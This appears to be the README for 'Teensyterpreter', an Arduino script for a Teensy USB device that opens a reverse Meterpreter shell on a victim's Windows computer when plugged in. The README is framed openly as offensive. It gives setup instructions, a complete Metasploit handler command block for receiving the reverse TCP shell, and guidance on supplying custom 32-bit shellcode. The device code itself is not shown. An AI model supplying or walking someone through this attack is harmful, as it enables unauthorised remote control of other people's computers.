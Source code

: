 Teensyterpreter
===============

A small Arduino script used to open a remote Meterpreter shell on a victim's computer. Designed to be loaded onto a Teensy 2.0 or later and then plugged in to the target. The attacker must use a Metasploit shell to connect back to the target, if using the supplied shellcode, though custom shellcode can be used. 

Supplied Shellcode
------------------

The normal shell can be received by the attackers computer listening for a connection. Port forwarding is required, and your IP and port must be entered into the first two lines of the script. The Teensy will automatically convert your IP and port into hexadecimal, and will automatically insert it into the code where it needs to be. The shell can be received using the following metasploit commands, in order. You must replace the port and IP with your public IP and the public port you are using.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
set LPORT 4444
set ExitOnSession false
exploit -j -z
```
Custom Shellcode
----------------

In the case that you are supplying your own custom shellcode, it must be in the correct format for proper use. See the normal shellcode for an example. The shellcode must also be generated for a 32 bit Windows x86 architecture. 
